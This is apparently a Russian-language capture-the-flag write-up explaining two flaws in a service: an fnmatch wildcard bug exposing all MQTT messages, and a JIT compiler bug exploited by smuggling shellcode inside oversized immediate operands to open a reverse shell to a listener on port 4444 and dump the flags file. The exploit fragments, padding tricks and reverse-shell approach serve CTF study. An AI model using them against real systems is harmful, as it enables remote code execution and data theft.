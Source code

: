 В сервисе **два** флага (один передаётся через MQTT и может быть перехвачен через лёгкую уязвимость №1; сложная же уязвимость открывает путь к обоим флагам, т.к. является RCE).

## Уязвимость №1 (лёгкая)
### exploit: `1-fnmatchWildcard.py`
```rust
let topic_cstr = CString::new(publish.topic).unwrap();
let pattern_cstr = CString::new(format!("/kube_comms/{}", kube_filter)).unwrap();

let match_result = unsafe { fnmatch(pattern_cstr.as_ptr() as *const c_char, topic_cstr.as_ptr() as *const c_char, 0) };

if match_result == 0 { (опубликовать сообщение в данный канал) }
```
fnmatch позволяет передать не только точную строку для сравнения, но и шаблон, например * (эта функциональность используется в шеллах для подстановки через wildcards (cat file*.txt - выведет file1.txt, file1298121.txt и т.д.)  
Таким образом, можно просматривать сообщения не только для устройств с известным ID, но для всех вообще: `http://IP:3000/api/client/receive?kube=*`  
Фиксится тем, что убираем fnmatch и сравниваем "простым" сравнением.

### Уязвимость №2 (сложная)
### exploit: `2-sploit-127001_port_4444.txt`, генератор кода - `2-minijitRCE.py`, а также см. папку `tools-for-2nd-exploit`
Уязвим minijit:
```asm
load_r1 9
load_r2 7
add
```
Когда запускаем программы как выше, то всё вроде бы нормально. Получаем 16.
Разберём ход построения машинного кода. Код выше "скомпилируется" в:
`48C7C00900000048C7C3070000004801D8909090909090.(и так кучу раз по 90).909090C3` (для этого даже есть специальная функциональность, надо собрать minijit, как написано в `building.txt`: 
`cargo build --features debug_print_memory`  
Листинг:
```asm
0:  48 c7 c0 09 00 00 00    mov    rax,0x9
7:  48 c7 c3 07 00 00 00    mov    rbx,0x7
e:  48 01 d8                add    rax,rbx
11: 90                      nop
12: 90                      nop
13: 90                      nop
14: 90                      nop
15: 90                      nop
16: 90                      nop
(..... и т.д. куча 90 nop .....)
xx: c3                      ret
```
Переходим непосредственно к уязвимости. Опкод mov `48 c7 c0/c3` подразумевает 4-байтовый операнд, однако по логике работы "компилятора" можно передать до 8 байт:
```asm
load_r1 99999999999
```
Результат будет такой: `Illegal instruction (core dumped)`.
То есть пытается выполнить дальнейшие инструкции (т.е. ту часть числа, которая вылезла за 4 байта, но естественно это не является какими-то валидными инструкциями).  
Исправим:
```asm
load_r1 18224819265520865553
```
Здесь я вставил валидные инструкции в само число: `hex(18224819265520865553) = 0xfceb909011111111; 9090EBFC: nop; nop; jmp $-2`  
Результат: бесконечный цикл (jmp `$-2` - IP-relative jump, прыгает опять на nop-ы).

Но если выполнить:
```asm
load_r1 18224819265520865553
load_r1 1
```
Ничего подозрительного не произойдет (выведется ответ: 1).
Посмотрим на память перед выполнением: `48C7C01111111148C7C001000000`
То есть, `11111111` записались как 4 байта, а далее нужные инструкции перетёрлисть `48C7C0` (mov опкодом следующей инструкции).

Вывод: "выйти за границу" получится только на последней инструкции, а далее прыгаем в начало и выполняем другие инструкции, которые закодированы в 4-байтных "нормальных" числах. Проблема ещё в том, что необходимо что-либо сделать с `mov`, иначе программа снова пойдет по предусмотренному пути.  
### Начну разбирать своё решение.
`tools-for-2nd-exploit/run_shellcode.py` - самый главный файл, основывается на шеллкоде для реверс-шелла с ресурса https://shell-storm.org/shellcode/files/shellcode-907.html  
Для начала я переместил загрузку длинных чисел:
```asm
mov rcx, 0x68732f2f6e69622f     ; /bin//sh
"   mov rcx, " + address +         ";" +    # Socket address and port

```
Переместил в начало кода (гружу и забрасываю на стек). Таким образом, после загрузки остаются ТОЛЬКО те инструкции, которые кодируются в 2 байта или 1 (neg, кодирующуюся в 3, можно вообще убрать и предрассчитать результат).   
Зачем это всё нужно? Дело в том, что полезные инструкции будут разбросаны между mov-инструкциями (т.к. шеллкод грузится в качестве чисел: `load_r1 ЧИСЛО`, и `load_r1`, которая на самом деле `mov`, мешается).
Теперь рассмотрим заполнители:
```python
LEFT3 = ".byte 0xf6; .byte 0x48; .byte 0xc7; .byte 0xc0" # but REQUIRES rax unchanged!! (test   BYTE PTR [rax-0x39],0xc0)
LEFT2 = ".byte 0x3d; .byte 0x00; .byte 0x48; .byte 0xc7; .byte 0xc0" # no constraint (cmp    eax,0xc0c74800)
LEFT2_SPECIAL = ".byte 0x68; .byte 0x2b; .byte 0x48; .byte 0xc7; .byte 0xc0" # pushes junk to stack
```
Дописываем байт или 2 в начало 0x48 0xc7 0xc0 (mov) и получается ДРУГАЯ инструкция (которая не забирает операнд, стоящий дальше, т.е. наше число из `load_r1 ЧИСЛО`, таким образом закодированные в числе инструкции смогут выполниться!).  
`LEFT3` опаснее (но оверхед всего +1 байт, а не 2, и соотв-но можно выполнять 3х байтовые инструкции шеллкода), т.к. требует определённого значения rax (чтобы была доступна память по адресу `rax-0x39`, поэтому используется в начале при загрузке больших чисел, далее практически везде используется `LEFT2`, но она к сожалению портит регистр флагов и испортит тогда прыжок цикла `jnz dup2_loop;`. Поэтому именно в том месте используется `LEFT2_SPECIAL` - `push 0xffffffffc0c7482b`, затем это мусорное значение убирается после выхода из цикла.  
Все инструкции для "набивки" были подобраны скриптами `tools-for-2nd-exploit/bruteforce*.py`.

Далее на последних 8 байтах, где и есть единственная возможность начать выполнение произвольного кода, происходит следующее (`last = str(struct.unpack('<Q', bytes.fromhex("e9 5e fe ff ff c9 eb f8"))[0])`):
```asm
0:  e9 5e fe ff ff          jmp    $-413
5:  c9                      leave
6:  eb f8                   jmp    $-6
```
Не забываем, что первые 4 байта пойдут в число, а выполнение начнётся только последних 4-х:
```asm
0:  ff c9                   dec    ecx
2:  eb f8                   jmp    $-6
```
`dec    ecx` - снова "набивка", т.к. главный jump на IP-413 занимает 5 байт, а не 4, поэтому выполняется "набивка" `dec    ecx`, затем `jmp    $-6` прыгает на `jmp    $-413`, после чего уже отправляемся в шеллкод.
Для тестирования можете запустить `tools-for-2nd-exploit/run_shellcode.py` и поймать шелл на `127.0.0.1:4444`, также можно отправить сообщение из `2-sploit-127001_port_4444.txt` серверу, но listener нужно поднимать **ВНУТРИ** docker контейнера с приложением (либо заменить IP в шеллкоде).
Получив reverse shell, остаётся лишь слить `/appdir/flags_db` и получить все флаги.
